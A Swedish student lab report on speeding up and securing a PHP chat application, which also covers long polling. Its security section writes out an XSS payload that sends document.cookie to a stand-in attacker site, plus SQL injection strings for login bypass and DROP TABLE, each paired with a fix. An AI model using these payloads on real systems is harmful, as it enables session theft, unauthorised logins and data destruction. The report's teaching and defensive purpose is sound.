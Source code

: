 Rapport för laboration 2 - 1DV449
Av: Viktor Nilsson

### Laddningstid ###

Det fanns en hel del att göra för att optimera laddningstiden för sidan och dessa samt tiderna efter att förändringarna gjorts visas här nedan.
Då det främst var inloggningen som tog tid gjordes flest tester här. Applikationen har under dessa tester körs från binero.

Tider för inloggningen i sekunder.
<pre>
Gjort åtgärd:           1      2      3      4      5     6     7

Första gången: 7050 - 3640 - 6500 - 6320 - 3080 - 3710 - 913 - 1070
Andra gången:  5860 - 2620 - 2230 - 2600 - 2760 -  586 - 112 -  647
Tredje gången: 4270 - 2250 - 2020 - 3100 - 3030 -  424 - 367 -  496
</pre>

 Åtgärder
 1. Ta bort onödig location (img/middle.php) + delayen på 2 sec
 2. Ta bort script som inte finns (longpoll.js) - onödig + mindre GET, boken
 3. Flytta om så att check.php körs i mess.php för att slippa ännu fler GET, boken
 4. Samla inline-script och css i mess.php och köra med externa filer (othercss.css, otherscripts.js)
 5. Tar bort dynamiska cssfilerna från css.php och lagt i othercss.css statiska filer. Kortare laddningstider pga lokal, färre GET, boken
 6. Minska bilderna - mindre data att skicka => snabbare (food.jpg)
 7. Minimera storleken på css- och js-filer.
 
 Mer om åtgärderna
 
 1. Genom att ta bort GET-requests drar vi ner på laddningstiden så location's vill vi minimera. Sen tog jag även bort fulingen som gjorde att applikationen tog 2 sekunder extra att laddas. Som källa till denna åtgärd tar jag både boken och föreläsningarna då vi pratat mycket om att dra ner på antalet förfrågningar. Laddningstiden blev markant bättre främst på grund av de 2 sekunderna som applikationen pausade.
 2. Scriptet fanns ej och såg därför ingen anledning till att ha det med. Detta drog ner på ytterligare en GET-request även fast det nog inte gjorde speciellt mycket är det en av de små bäckarna. Laddningstiden blev konstig första gången men andra och tredje visar ändå på förbättring, frågan är dock om det gjorde så pass mycket som den visar. Samma referens som ovan.
 3. För att fortsätta dra ner på onödiga laddningar omstrukturerade jag lite och flyttade över funktionalitet från check.php till mess.php. Här ser vi att laddningstiden hoppar upp förmodligen på grund av andra faktorer.
 4. Jag behöll inline-cssen för index.php då den förmodligen bara kommer köras en gång per session, men inline script och css i mess.php samlade jag ihop till var sin extern fil (othercss.css & otherscripts.js) för att kunna cachea detta så att det går snabbare att ladda sidan senare. Även omstrukturering gjordes i ordningen saker och ting laddades. Längst upp laddas css och längst ner script. css ska laddas först för att sidan ska kunna renderas snyggt och snabbt, script sist för att dessa inte behövs förrän sidan renderats och att dom enbart laddas hem en och en. (Boken som referens, Rule 6). Här ser vi vid första laddningen en markant skillnad. Det kan vara att bilden var cachead som spökade här.
 5. Jag vet inte om man fick göra så här, men vad jag kunde se från innehållet på de dynamiskt laddade css-filerna grid1 & grid2 fanns där inget som var specifikt för delar av sidan så jag valde att spara dessa lokalt istället för att snabba upp tiden. (Antar att det låg någon sleep() i denna också). Dessa tog över 1 sekund att ladda så skulle ge en markant skillnad hade jag hoppats på och det gav det förutom första laddningen som visar helt andra siffror.
 6. En sak jag märkte var att food.jpg var enormt stor och då den inte visades större än ungefär 300x220 behövde den heller inte vara större då den inte någonstans i applikationen visades större än detta. Här hade jag när jag gjort skrapan ändra storleken på skrapade bilder i php och sparat ner dessa i rätt storlek för att dra ner på datamängen som ska över till klienten. Här ser vi en stor skillnad då bilden emellanåt tog upp till 2-3 sekunder att ladda ibland.
 7. Som sista grej valde jag att förminska storleken på alla externa resurser (css och js) genom en minifier (http://cssminifier.com/ och http://javascript-minifier.com/). Allt för att dra ner på mängen data som ska skickas över. Testerna här visar att resultaten i förra testet kanske inte var helt så bra som dom visade då tiderna gick upp trots att jag förväntade mig dom att gå ner på grund av datamängen minskats med över 20-30% totalt på de externa resursfilerna.
 
 Kommentarer:
 css.php?css=grid1/2 tar väldigt ojämnt med tid under första testerna vilket gjort vissa tider ej rättvisa.
 den stora bilden food.jpg laddas inte alltid trots att cache rensas vilket har ställt till det i vissa testresultat.
 
 
 
 
### Säkerhet ###

1. Det fanns gott om säkerhetshål i applikationen varav ett var XSS i meddelandefältet.
-Man skulle kunna med hjälp av följande rad kunna skicka iväg cookieinformation till en extern sida: <script language="JavaScript">document.location="http://minhaxx0rsida.se/sparacookie.php?cookie=" + document.cookie;document.location="http://www.tillbakatillsidan.com"</script>
-Jag fixade till detta genom att köra htmlentities på all data som ska ut.
-Skada som hade kunnat ske är att någon får tag på ens session och kan komma in på sidan inloggad som dig.

2. Det finns inget skydd mot att highjacka sessioner.
-Man kan om man kommer åt sessionsinformationen (t.ex med en XSS-attack) använda denna för att logga in på sidan.
-Jag fixade detta genom att spara undan både IP och useragent som man sedan kollar mot. Går att manipulera men då måste attackeraren veta båda IP och useragent.
-Skadan som hade kunnat ske är samma som ovan; någon kan komma in på sidan inloggad som dig.

3. Mycket hål för SQL-Injections i ajaxanropen. Det jag upptäckt är getMessage, getMessageIdForProducer, getProducer går att utnyttja för SQL-injections.
-Genom att mata in ' OR '1'='1 Kommer allt att hämtas hem. Vill man kan man även '; DROP TABLE tabellen;--
-Fixas genom antingen att kolla så att ett ID är ett tal, intval() brukar jag använda för nummer. Att köra en prepare() och sen en bindParam() är vad jag gjort i detta fallet på samtliga.
-Med en SQL-Injection skulle man kunna komma över information från databasen eller förstöra genom att ta bort och manipulera data. Är lösenorden dåligt krypterade skulle dessa kunna användas för att testa dina inloggningsuppgifter på andra tjänster.

4. Det gick att logga in med SQL-injections i inloggningsfältet.
-Genom att mata in ' OR '1'='1 i båda fälten kommer du loggas in, inte otänkbart med adminkonto då detta ofta registreras först. Vet du användarnamnet kan du skriva in det och sedan skriva ' OR '1'='1 i lösenordsfältet för att logga in som den personen.
-Fixas som ovan genom att köra prepare() och bindParam().
-Går att göra saker som ovan men även att logga in som andra.

5. Mer SQL-injections finns att genomföra i meddelandeformuläret, både som namn och meddelande. Detta är precis som ovan avhjälpt med prepare() och bindParam() och innefattar samma säkerhetsrisker som ovan.

6. En säkerhetsrisk som var enkelt att missa var att vid utloggning blev man inte utloggad utan bara skickad till inloggningssidan. Gick man tillbaka var man fortfarande inloggad. Jag lade till en funktion som gjorde att man loggades ut innan man skickades tillbaka till index.php.
-Risken är att någon annan sätter sig vid datorn och kan komma åt ditt konto då du inte loggats ut på riktigt.
-Ta bort sessions hjälper i detta fallet för att döda inloggningen.
-Förbrytaren kan göra allt du kan då den är inloggad som dig.

### Comet Long Polling ###

Spännande extrauppgift som var riktigt lärorik! Jag löste uppgiften genom att ha en php-fil som efter att den kallas lägger sig i en loop i bestämt antal sekunder och kollar frekvent mot databasen om ett meddelande med ett nyare ID än det som skickades till scriptet finns. Om inte fortsätter loopandet, om det däremot kommit ett meddelande som är nyare och överensstämmer med producer-idet ($pid) retureras detta.

På klientsidan har jag tagit bort den vanliga koden som läste in meddelandena och ersatte med min egna som helt enkelt börjar med att kika om det finns något meddelande för $pid'en som är större än vilket det kommer finnas om det finns meddelanden. Detta äldsta meddelande skickas tillbaka och skrivs ut, samma kod excekveras igen fast denna gången med det nya idet för meddelandet. Hittas ett meddelande som är nyare händer samma sak och detta pågår till dess att det inte finns några nyare meddelande än sist laddat meddelande. Då kommer den istället ligga och försöka ladda scriptet tills dess att den timeoutar. Då tar den upp en ny anslutning och ligger och väntar innan antingen den också timeoutar eller att det faktiskt kommer ett nytt meddelande.

Den stora nackdelen är de väldigt många SQL-anrop som sker. Allt för att användaren ska få en push-aktig upplevelse. PHP är heller inte gjort för att ha denna typ av öppna anslutningar och vad jag kunnat läsa mig till så är detta väldigt resurskrävande med öppna anslutningar och php.

Jag lade även til en kolumn i sqlite-databasen (timestamp som integer) som håller tiden. Med javascript omvandlar jag denna och spottar ut mig ett finare format.
.prepend användes istället för .append för att få meddelandena att hamna i rätt ordning (senast överst).

### Slutkommentarer: ###
Ingen energi alls har lagts på att strukturera upp koden snyggare och med enhetligt. Hade jag haft tid hade jag gärna försökt ge mig på och göra denna kod mer objektorienterad och MVC men tid har inte funnits.
Inte heller har jag brytt mig om att kapsla in javascriptsfunktioner och den globala variabeln på ett snyggare sätt som vi lärde oss i webbteknik 1, också detta för att prioritera de moment laborationen var till för.
Hade jag haft mer tid hade detta också fixats.